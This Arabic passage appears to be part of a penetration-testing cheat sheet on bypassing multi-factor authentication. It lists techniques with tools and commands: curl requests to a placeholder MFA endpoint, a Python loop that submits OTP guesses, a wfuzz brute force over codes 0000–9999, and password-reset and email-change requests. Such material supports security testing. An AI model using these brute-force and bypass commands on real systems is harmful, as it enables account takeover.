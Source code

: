 3. **ضعف رموز MFA**:
   - **البيانات**: رموز (`1234`، `0000`).
   - **الأدوات**: Burp Suite Intruder، cURL، Python.
   - **الأوامر**:
     ```bash
     curl -X POST -d "username=test@example.com&password=password&otp_code=1234" https://target.com/mfa/verify
     ```
     ```python
     import requests
     url = "https://target.com/mfa/verify"
     credentials = {"username": "test@example.com", "password": "password"}
     otps = ["0000", "0001"]
     for otp in otps:
         data = {**credentials, "otp_code": otp}
         response = requests.post(url, data=data)
         print(f"OTP: {otp}, Status: {response.status_code}")
     ```

4. **استعادة الحساب**:
   - **البيانات**: إيميل (`test@example.com`)، إجابات أسئلة أمان.
   - **الأدوات**: متصفح، Burp Suite، cURL.
   - **الأوامر**:
     ```bash
     curl -X POST -d "email=test@example.com" https://target.com/forgot-password
     ```

5. **تكرار أو إعادة استخدام رموز MFA**:
   - **البيانات**: رمز MFA واحد.
   - **الأدوات**: Burp Suite، cURL.
   - **الأوامر**:
     ```bash
     curl -X POST -d "username=test@example.com&password=password&otp_code=1234" https://target.com/mfa/verify
     ```

6. **Brute Force على رموز MFA**:
   - **البيانات**: أكواد (`0000` إلى `9999`).
   - **الأدوات**: Burp Suite Intruder، wfuzz، cURL.
   - **الأوامر**:
     ```bash
     wfuzz -c -z range,0000-9999 --hc 404 -d "otp_code=FUZZ" https://target.com/mfa/verify
     ```

7. **ثغرات في قنوات توصيل MFA**:
   - **البيانات**: إيميل، رقم هاتف.
   - **الأدوات**: Burp Suite، cURL.
   - **الأوامر**:
     ```bash
     curl -X POST -d "email=newemail@example.com" https://target.com/settings/change-email
     ```

---
